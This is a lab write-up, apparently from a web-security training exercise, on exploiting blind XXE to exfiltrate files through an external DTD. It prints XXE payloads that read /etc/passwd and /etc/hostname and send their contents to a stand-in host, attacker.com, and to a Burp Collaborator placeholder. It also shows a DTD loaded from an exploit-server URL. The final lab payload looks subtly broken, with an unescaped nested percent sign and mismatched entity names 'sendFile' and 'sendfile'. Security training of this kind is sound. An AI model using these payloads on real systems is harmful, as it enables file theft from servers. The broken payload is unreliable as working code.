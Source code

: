 Title: Exploiting blind XXE to exfiltrate data using a malicious external DTD
Level: Practitioner
Desc:  This lab has a "Check stock" feature that parses XML input but does not display the result.
To solve the lab, exfiltrate the contents of the /etc/hostname file. 


First of all what is the difference between classic XXE using interal entity and external DTD.
DTD - Document Type Definition
- An internal DTD is defined inside the XML document itself.
- An external DTD is loaded from an outside source, typically via a URL.
  
DTD can be used to bypass protection. 

classic XXE example using an internal entity:
```
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```
External DTDs can be used to bypass protections — like if entity definitions are restricted internally, but the parser still fetches external DTDs.

External DTD delivering the payload:
```
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://attacker.com/malicious.dtd">
<data>&sendFile;</data>
```
Then, malicious.dtd might contain:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY sendFile SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
```

So, using external DTD we can bypass protections and still exploit XXE vulnerability.

LAB:
go to exploit server and add the exploit:
![image](https://github.com/user-attachments/assets/805d7fe4-2bad-4d42-b65d-311e8a2112f2)
payload: 
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY % sendFile SYSTEM 'http://BURP_COLLABORATOR?data=%file;'>">
%eval;
%sendfile;
```

Exploitation and calling external dtd file: 
![image](https://github.com/user-attachments/assets/31ae6e1f-5b40-4d76-b9df-0c3b932ba66b)
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0aad004b0477773880f9520301880004.exploit-server.net/exploit"> %xxe; ]>
```













